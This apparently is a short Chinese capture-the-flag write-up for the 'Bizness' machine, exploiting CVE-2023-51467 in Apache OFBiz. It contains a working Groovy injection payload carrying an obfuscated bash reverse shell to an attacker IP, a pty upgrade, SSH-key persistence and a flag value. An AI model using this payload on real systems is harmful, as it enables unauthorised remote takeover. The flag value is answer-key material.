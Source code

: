 ## Bizness
#CVE-2023-51467
dirsearch 扫描

![](attachments/Pasted%20image%2020240404203111.png)

OFBiz18.12为存在漏洞版本

![](attachments/Pasted%20image%2020240404203325.png)

直接打

![](attachments/Pasted%20image%2020240404204932.png)

反弹shell
```
throw+new+Exception('bash+-c+{echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni84ODg4IDA%2BJjE%3D}|{base64,-d}|{bash,-i}'.execute().text);
```

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

上传自身ssh公钥维权

![](attachments/Pasted%20image%2020240404210953.png)

95548fdaecb252a12165a37ae84cc94f

最后提权是在存放数据的地方拿到admin的hash，做爆破